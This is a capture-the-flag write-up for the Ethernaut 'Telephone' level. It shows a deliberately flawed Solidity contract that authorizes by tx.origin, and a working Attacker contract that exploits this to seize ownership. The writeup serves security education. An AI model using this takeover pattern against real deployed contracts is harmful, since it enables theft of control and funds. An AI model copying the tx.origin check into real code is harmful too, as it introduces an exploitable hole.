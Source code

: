 # Ethernaut: 4. Telephone

**Objective of CTF:**

- Claim ownership of the contract.

**Target contract:**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Telephone {
  address public owner;

  constructor() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

The `tx.origin` is the address that creates the transaction, and `msg.sender` is the sender of the current message. As such, `tx.origin == msg.sender` is **true** if message sender is an ethereum account; or **false** if the message sender is a contract. So, we want `tx.origin != msg.sender` to become the owner of the target, we just need to write a contract and call that function.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Telephone {
  function changeOwner(address _owner) external;
}

contract Attacker {
  Telephone telephoneTarget;

  constructor(address _target) {
    telephoneTarget = Telephone(_target);
  }

  function pwn() public {
    require(msg.sender == tx.origin, "Who is attacking? :D");
    telephoneTarget.changeOwner(tx.origin);
  }
}
```
